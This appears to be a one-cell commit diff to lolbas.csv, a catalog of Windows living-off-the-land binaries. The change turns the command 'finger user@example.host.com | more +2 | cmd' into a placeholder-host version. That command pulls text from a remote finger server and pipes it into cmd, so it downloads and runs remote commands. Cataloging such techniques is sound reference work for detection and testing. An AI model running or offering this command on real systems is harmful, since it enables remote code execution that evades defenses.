

Before and after one commit to swanpake/LOLBasFormated, a CSV file: lolbas.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update lolbas.csv

```diff
--- a/lolbas.csv
+++ b/lolbas.csv
-B80 (Command): finger user@example.host.com | more +2 | cmd
+B80 (Command): finger {USER@DOMAIN} | more +2 | cmd
```
